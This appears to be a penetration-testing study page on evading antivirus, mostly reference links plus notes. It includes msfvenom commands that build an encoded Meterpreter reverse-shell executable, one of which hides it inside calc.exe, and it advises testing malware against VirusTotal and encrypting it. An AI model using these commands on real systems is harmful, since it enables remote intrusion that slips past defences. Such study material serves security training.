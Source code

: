 # Bypassing Antivirus

## Additional Resources

* [https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing\_antivirus.html](https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing_antivirus.html)
* [https://www.shellterproject.com/](https://www.shellterproject.com/)
* [https://upx.github.io/](https://upx.github.io/)
* [https://enigmaprotector.com/](https://enigmaprotector.com/)
* [https://www.microsoft.com/security/blog/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/](https://www.microsoft.com/security/blog/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/)
* [https://en.wikipedia.org/wiki/Dead\_code](https://en.wikipedia.org/wiki/Dead_code)
* [https://en.wikipedia.org/wiki/Executable\_compression](https://en.wikipedia.org/wiki/Executable_compression)
* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://blog.f-secure.com/memory-injection-like-a-boss/](https://blog.f-secure.com/memory-injection-like-a-boss/)
* [https://en.wikipedia.org/wiki/Windows\_API](https://en.wikipedia.org/wiki/Windows_API)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
* [https://en.wikipedia.org/wiki/Handle\_\(computing\)](https://en.wikipedia.org/wiki/Handle_%28computing%29)
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
* [https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)
* [https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/](https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)

## How to Find which AV Detects Malware

* find out which AV the target uses.
* upload malware to [virtustotal.com](http://virtustotal.com/) and see if the specific AV finds it

## Encoding

* can be done with msfvenom and metasploit
* notice how we set the -e flag here, and then use the shikata\_ga\_nai encoding
* not that effective since antivirus-vendors have access too

### Example

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

## Embed in Non-Malicious File

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o bad_calc.exe
```

## Encrypting the malware

* encrypt the malware and radically change the signature
* Hyperion is a great tool for malware encryption

